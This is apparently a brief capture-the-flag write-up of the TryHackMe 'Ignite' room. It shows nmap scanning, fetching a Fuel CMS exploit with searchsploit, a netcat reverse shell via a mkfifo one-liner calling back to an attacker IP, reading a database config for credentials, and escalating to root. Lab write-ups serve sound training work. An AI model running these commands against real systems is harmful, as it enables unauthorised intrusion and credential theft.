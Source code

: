 ```yaml
---
description: https://tryhackme.com/room/ignite
---
```


# Ignite

### **User.txt**

```
nmap 10.10.118.134
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 18-11-32.png>)

```
searchsploit -w fuel
searchsploit -m 47138
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 21-02-01.png>)

```
nc -nvlp 4444
$ ls -a /home/
$ ls -a /home/www-data
$ cat /home/www-data/flag.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 21-05-39.png>)

```bash
vim 47138.py
python 47138.py
cmd:rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.101.193 4444 >/tmp/f
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 21-05-19.png>)

### **Root.txt**

![](<../../.gitbook/assets/Screenshot from 2020-09-17 21-06-23.png>)

```
$ cat /var/www/html/fuel/application/config/database.php
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ su - root
$ cat root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-17 21-07-03.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-17 21-09-55.png>)

## :link: Support Material

{% embed url="https://www.exploit-db.com/exploits/47138" %}

{% embed url="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet" %}

